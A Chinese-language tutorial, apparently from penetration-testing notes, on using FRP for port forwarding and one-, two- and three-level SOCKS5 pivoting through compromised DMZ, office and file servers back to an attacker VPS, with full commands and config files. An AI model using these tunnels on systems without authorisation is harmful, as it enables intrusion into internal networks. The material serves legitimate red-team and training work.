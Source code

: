 # 端口转发

## FRP

**将web服务器的3389端口转发到VPS的3389端口**

1. 在VPS上执行以下命令，启动FRP服务端 shell

```
./frps -c ./frps.ini
```

 frps.ini内容如下： 

```
[common] bind_addr = 0.0.0.0 bind_port = 7000
```

- 在web服务器上执行以下命令，启动FRP客户端，连接vps的服务端 shell

```
./frpc.exe -c ./frpc.ini
```

 frpc.ini内容如下： 

```
[common] server_addr = 100.100.100.10 server_port = 7000 [socks5_forward] type = tcp local_ip = 127.0.0.1 local_port = 3389 remote_port = 33890
```

**将web服务器的3389端口转发到web服务器的的33890端口**

1. 在web服务器上执行以下命令，启动FRP服务端 shell

```
./frps -c ./frps.ini
```

 frps.ini内容如下： 

```
[common] bind_addr = 0.0.0.0 bind_port = 7000
```

- 在web服务器上执行以下命令，启动FRP客户端，连接vps的服务端 shell

```
./frpc.exe -c ./frpc.ini
```

 frpc.ini内容如下： 

```
[common] server_addr = 127.0.0.1 server_port = 7000 [socks5_forward] type = tcp local_ip = 127.0.0.1 local_port = 3389 remote_port = 33890
```

# 内网代理

## FRP

[![img](assets/1681723107582-9cf9583e-a867-4d61-b08d-69f0b6be67a6.png)](https://blog-1300147235.cos.ap-chengdu.myqcloud.com/202302081501409.png)

### 一级代理

此时已经获得DMZ区web服务器的权限，将web服务器作为跳板打通DMZ区的网络，使得kali可以访问到FTP服务器

vps -> web服务器 -> DMZ区网络

1. 使用vps作为FRP的服务端，在VPS执行shell

```
./frps -c ./frps.ini
```

frps.ini内容如下：

```
[common] bind_addr = 0.0.0.0 bind_port = 7000
```

- 使用web服务器作为FRP客户端，执行shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

```
[common] server_addr = 100.100.100.10 server_port = 7000 [socks5] remote_port = 1080 plugin = socks5
```

完成后**在vps上会开启socks代理端口1080**，使用代理软件代理即可。

### 二级代理

此时已经获取到DMZ区域的web服务器和FTP服务器权限，将web服务器和FTP服务器同时作为跳板，打通到达办公区的网络

vps -> web服务器 -> FTP服务器 -> 办公区网络

1. 在VPS上执行以下命令，启动FRP服务端shell

```
./frps -c ./frps.ini
```

frps.ini内容如下：

```
[common] bind_addr = 0.0.0.0 bind_port = 7000
```

- 在web服务器上执行以下命令，启动FRP客户端，连接vps的服务端shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

- 这将本地的10808端口转发到VPS的1080端口

```
[common] server_addr = 100.100.100.10 server_port = 7000 [socks5_forward] type = tcp local_ip = 10.10.10.20 local_port = 10808 remote_port = 1080
```

- 在web服务器上执行以下命令，启动一个FRP服务端shell

```
./frps.exe -c ./frps.ini
```

frps.ini内容如下：

```
[common] bind_addr = 10.10.10.20 bind_port = 7000
```

- 在FTP服务器上执行以下命令，启动FRP客户端shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

```
[common] server_addr = 10.10.10.20 server_port = 7000 [socks5] type = tcp remote_port = 10808 plugin = socks5
```

完成后**在vps上会开启socks代理端口1080**，使用代理软件代理即可访问办公区网络。

**最终的隧道：**

```
VPS（100.100.100.10）    监听：0.0.0.0:1080、0.0.0.0:7000     <--> web服务器（10.10.10.20）    连接：100.100.100.10:7000    监听：10.10.10.20:7000、10.10.10.20:10808      <--> ftp服务器（10.10.10.30、192.168.30.10）    连接：10.10.10.20:7000 <-->办公区网络（192.168.30.0/24）
```

### 三级代理

此时已获得DMZ区的web服务器和FTP服务器权限，以及办公区的文件服务器权限，将web服务器和FTP服务器以及文件服务器同时作为跳板，打通到达核心区的网络

vps -> web服务器 -> FTP服务器 -> 办公区文件服务器 -> 核心区网络

1. 在VPS上启动FRP服务端shell

```
./frps -c ./frps.ini
```

frps.ini内容如下：

```
[common] bind_addr = 0.0.0.0 bind_port = 7000
```

- 在web服务器上启动FRP客户端，同时将本地的10808端口转发到VPS的1080端口shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

- 这将本地的10808端口转发到VPS的1080端口

```
[common] server_addr = 100.100.100.10 server_port = 7000 [socks5_forward] type = tcp local_ip = 10.10.10.20 local_port = 10808 remote_port = 1080
```

- 在web服务器上启动一个FRP服务端shell

```
./frps.exe -c ./frps.ini
```

frps.ini内容如下：

```
[common] bind_addr = 10.10.10.20 bind_port = 7000
```

- 在FTP服务器上启动FRP客户端，连接web服务器的FRP服务端，同时将FTP服务端的10809端口转发到Web服务器的10808端口shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

```
[common] server_addr = 10.10.10.20 server_port = 7000 [socks5_forward] type = tcp local_ip = 192.168.30.10 local_port = 10809 remote_port = 10808
```

- 在FTP服务器上启动FRP服务端shell

```
./frps.exe -c ./frps.ini
```

frps.ini内容如下：

```
[common] bind_addr = 192.168.30.10 bind_port = 7000
```

- 在办公区的文件服务器上启动FRP客户端，连接FTP服务器的服务端，并在FTP服务器的10809端口上启动socks5代理服务shell

```
./frpc.exe -c ./frpc.ini
```

frpc.ini内容如下：

```
[common] server_addr = 192.168.30.10 server_port = 7000 [socks5] type = tcp remote_port = 10809 plugin = socks5
```

**最终的隧道：**

```shell
VPS（100.100.100.10）
    监听：0.0.0.0:1080、0.0.0.0:7000
    
<--> web服务器（10.10.10.20）
    连接：100.100.100.10:7000
    监听：10.10.10.20:7000、10.10.10.20:10808 
    
<--> ftp服务器（10.10.10.30、192.168.30.10）
    连接：10.10.10.20:7000
    监听：192.168.30.10:10809 、192.168.30.10:7000 
    
<--> 文件服务器（192.168.30.100、192.168.60.100）
    连接：192.168.30.10:7000 
    
<-->核心区网络（192.168.60.0/24）
```